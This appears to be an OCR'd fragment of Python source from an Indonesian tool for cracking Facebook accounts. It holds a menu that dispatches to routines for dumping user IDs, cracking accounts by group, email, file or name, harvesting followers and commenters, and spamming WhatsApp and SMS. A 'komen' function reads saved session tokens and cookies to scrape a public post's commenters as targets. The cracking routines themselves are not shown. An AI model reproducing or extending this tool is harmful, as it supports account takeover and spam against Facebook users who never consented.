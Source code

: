          _____brayennn___xd____ = input(f' [+] Pilih Menu Crack : ') 
         if _____brayennn___xd____ in ['1','01']: 
                 brayen_dump() 
         elif _____brayennn___xd____ in ['2','02']: 
                 dump_massal() 
         elif _____brayennn___xd____ in ['3','03']: 
                 crack_group() 
         elif _____brayennn___xd____ in ['4','04']: 
                 crack_email() 
         elif _____brayennn___xd____ in ['5','05']: 
                 crack_file() 
         elif _____brayennn___xd____ in ['6','06']: 
                 crack_nama() 
         elif _____brayennn___xd____ in ['7','07']: 
                 pengikut() 
         elif _____brayennn___xd____ in ['8','08']: 
                 komen() 
         elif _____brayennn___xd____ in ['9','09']: 
                 file_cp() 
         elif _____brayennn___xd____ in ['10']: 
                 result() 
         elif _____brayennn___xd____ in ['11']: 
                 siu() 
         elif _____brayennn___xd____ in ['12']: 
                 spam_wa() 
         elif _____brayennn___xd____ in ['13']: 
                 spam_sms() 
         elif _____brayennn___xd____ in ['14']: 
                 dumpid() 
         elif _____brayennn___xd____ in ['15']: 
                 os.system('rm -rf .token.txt') 
                 os.system('rm -rf .cookie.txt') 
                 print(f' [+] {m}Sukses Logout+Hapus Cookies') 
                 time.sleep(5) 
                 login() 
         else: 
                 print(' [+] Pilih Yang Bener Asu ') 
                 exit() 
 def error(): 
         print(f' [+] Maaf Fitur Ini Masih Di Perbaiki') 
         time.sleep(4) 
  
 def siu(): 
         start() 
         get_data_web() 
         akhir() 
  
 ###---------[ CRACK DARI KOMEN ]---------- ### 
 def komen(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cokies = open('.cok.txt','r').read() 
         except IOError: 
                 print(' [+] Cookies Kadaluarsa ') 
                 time.sleep(5) 
                 login() 
         cetak(panel(f"Pastikan Akun Target Yang Di Pilih Bersifat Publik Jangan Private",width=90,padding=(0,4),style=f"bold white")) 
         ide = input(f' [+] Masukan Id Postingan : ') 
         get_komen('https://mbasic.facebook.com/'+ide,cokies) 
         print("\r") 
         setting() 
  